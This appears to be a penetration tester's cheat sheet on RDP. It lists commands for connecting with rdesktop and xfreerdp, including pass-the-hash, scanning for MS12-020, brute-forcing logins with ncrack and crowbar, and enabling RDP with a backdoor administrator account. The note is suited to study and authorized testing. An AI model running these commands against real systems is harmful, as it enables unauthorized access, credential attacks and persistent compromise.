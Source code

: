 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

![[Pasted image 20220516171239.png]]

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

```bash - kali
xfreerdp /u:$USER /pth:$HASH /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

Connect with share:
```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /v:TARGET /drive:kali,/home/kali/Desktop/
```

#### xfreerdp
```bash - kali
xfreerdp /v:$TARGET -sec-nla /u:""
```

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET
```

#### nmap
```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

#### ncrack
```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

#### crowbar
```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```

### Enabling RDP
```command prompt - kali
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Add a new user to Admin, good for RDP
```command prompt - kali
net user foobar Pass123 /add
```

```command prompt - kali
net localgroup Administrators foobar /add
```

```command prompt - kali
sc config TermService start=auto
```

```command prompt - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

See also:
[[Crowbar]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

